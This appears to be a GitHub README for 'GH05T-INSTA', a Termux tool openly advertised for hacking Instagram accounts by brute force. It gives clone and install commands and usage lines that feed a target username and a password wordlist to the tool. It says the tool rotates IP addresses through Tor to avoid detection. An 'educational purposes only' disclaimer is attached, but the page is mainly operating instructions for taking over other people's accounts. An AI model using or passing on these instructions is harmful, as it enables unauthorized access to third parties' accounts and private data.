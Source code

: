 <i>TERMUX USERS</i>
<img src="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.img/The-Attack.jpeg" alt="bruteforce attack ">
<b>You can hack Instagram accounts with the help of this tool</b>
<br><b><del>PHISHING</del> BruteForce Attack</b>
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/gh05thunter5.jpg" alt="gh05t-logo">

<li>Auto Attack</li>
<pre>
$ If you enter the username, it will attack itself


$ Once the password is received, a warning message will also appear

$ Your IP address will change automatically

@ Ihre IP-Adresse ändert sich automatisch

Tor network helps to change IP
</pre>

# Qualitäten

<b>Automatische Passworterkennung und Benachrichtigung  an  Sie { Automatic password detection  }
<br><br><b>Damit können Sie das Passwort leicht finden { With it, you can easily find the password }
<br><br><b>Password is updated and uploaded every three months</b>
#
<i>Package Installation</i>

```
pkg install git
```
```
pkg install python
```
```
pkg install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd $HOME
```
```
rm -rf GH05T-INSTA
```

<center>After</center>

```
gh05t
```

# After Try This Commands

<i>This tool will run if you type gh05t</i>

```
$ gh05t

{ After entering this command you will get an option for everything }
{ Nach Eingabe dieses Befehls erhalten Sie eine Option für alles }

$ gh05t --user username --pass 1

{ After running this command the brute force will start }
{ Nach Ausführung dieses Befehls wird die Brute Force gestartet }
(             How To Use            )
( gh05t --user mr_77778#8 --pass 2 )
( gh05t --user mr_fake#@ --pass 3 )
( gh05t --user liza888#8 --pass 4 )
( gh05t --user german_9#6# --pass 5 )
(     Total Password List 5        )

$ gh05t --user username --passadd Your-Pass

{ After running this command the brute force will start }
{ Nach Ausführung dieses Befehls wird die Brute Force gestartet }

(                       How To Use                        )
( gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt )
( gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt )
( gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
( gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt )
(                Enter your password location and name                   )

$ gh05t --help

{ Try this command for information about this tool }
{ Probieren Sie diesen Befehl aus, um Informationen zu diesem Tool zu erhalten }

$ ghost --check

{ To reinstall deleted files (FPP) solution }
{ Um gelöschte Dateien neu zu installieren  (FPP) solution }

$ gh05t --update

{ Try this command and you will get new updates }
{ Probieren Sie diesen Befehl aus und Sie erhalten neue Updates }

$ gh05t --error

{ Run this command if you encounter errors while running this tool }
{ Führen Sie diesen Befehl aus, wenn beim Ausführen dieses Tools Fehler auftreten }

$ gh05t developer 

{ To contact the developer }
{ Um den Entwickler zu kontaktieren }

$ gh05t --cookies

{ After running this command you can see the username }
{ Nachdem Sie diesen Befehl ausgeführt haben, können Sie den Benutzernamen sehen }

```

# Main Menu
<em>You can use it in two ways</em><br>
<br>$ just type : gh05t</b><br>
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/gh05t.jpg" alt="menu">

<i>WORKING DEMO <a href="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/Gh05t-attack.jpg">GH05T ATTACK</a></i>

有了這個，您可以立即暴力破解您的 Instagram 帳戶

Es funktioniert gut, da es mit Instagram-py erstellt wurde

इंस्टाग्राम हैकिंग

<h1>Notice</h1>

`TO BE USED FOR EDUCATIONAL PURPOSES ONLY`

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```


<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

